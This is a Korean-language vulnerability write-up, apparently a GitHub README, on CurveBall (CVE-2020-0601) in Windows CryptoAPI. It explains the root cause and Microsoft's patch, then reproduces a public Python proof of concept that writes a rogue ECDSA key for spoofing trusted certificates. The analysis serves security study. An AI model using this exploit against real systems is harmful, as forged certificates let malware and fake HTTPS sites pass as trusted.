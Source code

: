 # Curveball - Windows CryptoAPI Spoffing 취약점

## Information
- CVE : 2020-0601
- 해당 소프트웨어 : Crypto32.dll in Windows 
- 해당 버전 : Windows 10, Windows Server 2016 and 2019
- 취약점 유형 : 인증서 스푸핑


## Description
Windows CryptoAPI (Crypt32.dll)이 타원곡선전자서명알고리즘 (Elliptic Curve Digital Signature Algorithm, ECDSA)으로 서명된 인증서의 유효성을 검사하는 방식에서 취약점이 존재한다. 공격자는 스푸핑된 Code Signing Certificate를 통해 악의적인 실행파일에 서명할 수 있다. 이 경우, 서명된 실행파일은 신뢰할 수 있는 공급자에 의해 서명된것처럼 사용자에게 보여지게 된다. 뿐만 아니라, SSL/TLS로 암호화된 페이지도 마찬가지로 위조가 가능하며, 아래 그림처럼 정상적인 페이지로 보여지게 된다.

![](fake_https.png)



## Root Cause

이 취약점은 X.509인증서를 신뢰할 수있는 Root CA로 추적 할 수 있는지 확인하기 위해 사용되는  CertGetCertificateChain()함수에서 발생한다. 해당 함수에 대해 설명하기 이전에 ECDSA를 이용한 서명과 검증에 대해 이해할 필요가 있다. 

ECDSA에서, 개인키 k는 충분히 큰 정수로 설정되며, 타원곡선 E에 대해 P=k*G로 계산되는 공개키 P가 설정된다. 이 때 G는 해당 곡선의 생성자(generator)로써, 거대한 소수로 설정된다. 또한, 이 값은 통상 표준화되어있는 것이 일반적이다. 

정상적으로 검증 루틴이 구현되어있다면, 개인키 k를 이용하여 서명하는 대상에 대해 정상적인 생성자로 세팅되어있는지를 검사하고, k*G의 값이 공개키와 일치하는지를 확인해야 할 것이다. 그러나, 문제가 된 CertGetCertificatieChain()함수에서 생성자를 검증하지 않아 문제가 발생한다. 
SK InfoSec에서 패치 전/후를 분석해놓은 보고서를 보면, 패치 전에는 검증 루틴에서 단순히 memcpy로 공개키만 비교하여 문제가 발생하였음을 알 수 있다. 

![http://blog.naver.com/skinfosec2000/221808540609](before_patch.png)

공격자가 생성자를 자유롭게 선택할 수 있기 때문에, 공개키 P에 대해 P=k'*G'를 만족하는 쌍 (k',G')을 만드는 것은 어렵지 않게 가능하다. 이 [PoC](https://github.com/kudelskisecurity/chainoffools/blob/master/gen-key.py)의 쌍 생성 부분에서도, 개인키를 2로 고정하고 2*G=P를 만족하는 G를 역으로 구해주고 있음을 알 수 있다. 

![](snip_by_gen_key.py.png)


## Patch
Microsoft는 새로운 함수인 ChainComparePublicKeyParametersAndBytes()를 추가해서 딘순히 발행자와 공개키 해시를 비교하는 대신 신뢰하는 루트 인증서와 실제로 종단 인증서에 서명하는데 사용된 인증서 사이에 파라미터들과 바이트를 비교하게 하여 해당 문제를 해결하였습니다. 만약 앞선 취약점 PoC와 같이 생성자 혹은 다른 파라미터를 변경할 경우, CryptVerifySignatuerEx()가 실제 신뢰하는 루트 인증서와 파라미터를 다시 가져오게 된다.

![http://blog.naver.com/skinfosec2000/221808540609](patched.png)

## PoC
[공개된 PoC](https://github.com/kudelskisecurity/chainoffools)는 아래와 같다. 공개된 다른 PoC들도 많지만, 이는 Reference에만 첨부한다. 
```python
#!/usr/bin/env python3
import gmpy2
import sys

from fastecdsa.curve import P384
from fastecdsa.point import Point
from Crypto.Util.asn1 import DerSequence, DerOctetString, DerBitString, DerObjectId
from Crypto.IO import PEM
from Crypto.PublicKey import ECC
from binascii import hexlify

def generate_privkey(d, generator):
    """
        Generate a private key with explicit parameters.
    """
    modulus_bytes = 48
    a = P384.a % P384.p
    public_key = d * generator
    generator = (b'\x04' +
        generator.x.to_bytes(modulus_bytes, "big") +
        generator.y.to_bytes(modulus_bytes, "big"))
    public_key = (b'\x04' + 
                    public_key.x.to_bytes(modulus_bytes, "big") +
                    public_key.y.to_bytes(modulus_bytes, "big"))

    field_parameters =  DerSequence([DerObjectId("1.2.840.10045.1.1"), P384.p])
    parameters = [DerSequence([1, field_parameters,
                    DerSequence([
                    DerOctetString(a.to_bytes(modulus_bytes, "big")),
                    DerOctetString(P384.b.to_bytes(modulus_bytes, "big"))]),
                    DerOctetString(generator),
                    P384.q,
                1
            ])]
    seq = [1,
            DerOctetString(d.to_bytes(modulus_bytes, "big")),
            DerSequence(parameters, implicit=0),
            DerBitString(public_key, explicit=1)]
    
    return seq

if __name__ == "__main__":

    if len(sys.argv) != 2:
        print("Usage " + sys.argv[0] + " root-certificate.pem")
        sys.exit()

    # Public key extraction
    cert = open(sys.argv[1], "r")
    pubkey = ECC.import_key(cert.read())
    cert.close()
    nb_bytes = pubkey.pointQ.size_in_bytes()

    if pubkey.curve != "NIST P-384":
        print("Public key must be on P-384 curve")
        sys.exit()

    Q = Point(int(pubkey.pointQ.x), int(pubkey.pointQ.y), curve=P384)

    # Generate rogue generator
    # we take the private key as being 2
    privkey = 2
    # we multiply our public key Q with the inverse of our chosen private key value
    rogueG = gmpy2.invert(privkey,P384.q) * Q
    der = DerSequence(generate_privkey(privkey, rogueG))
    # Generate new file
    f = open('p384-key-rogue.pem','w')
    keyfile = PEM.encode(der.encode(), 'EC PRIVATE KEY')
    f.write(keyfile)
    f.close()
```

## Reference
- [PoC written by kudelskisecurity](https://github.com/kudelskisecurity/chainoffools)
- [PoC written by ollypwn](https://github.com/ollypwn/CurveBall)
- [Windows CryptoAPI Spoofing 취약점 written by SK Infosec](http://blog.naver.com/skinfosec2000/221808540609)
- [An In-Depth Technical Analysis of CurveBall (CVE-2020-0601)](https://blog.trendmicro.com/trendlabs-security-intelligence/an-in-depth-technical-analysis-of-curveball-cve-2020-0601/)

